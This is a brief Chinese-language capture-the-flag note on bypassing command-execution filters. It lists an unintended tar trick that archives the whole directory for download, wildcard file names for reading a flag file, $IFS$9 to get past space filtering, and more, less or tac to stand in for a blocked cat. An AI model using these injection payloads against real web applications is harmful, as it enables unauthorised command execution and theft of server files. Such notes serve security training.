 # 命令执行

# 1. 非预期

```
tar$IFS$9-cvf$IFS$91$IFS$9.
```

将会对当前目录所有文件打包到`1`中，然后浏览下载`1`解压即可

# 2.正常绕过

## 2.1. 文件名绕过

如果要获取`flag`，可以通过以下方式绕过

```
cat fl*
cat fl??
```

## 2.2. 空格绕过

```
$IFS$9
```

## 2.3. cat绕过

使用`more`、`less`、`tac`等绕过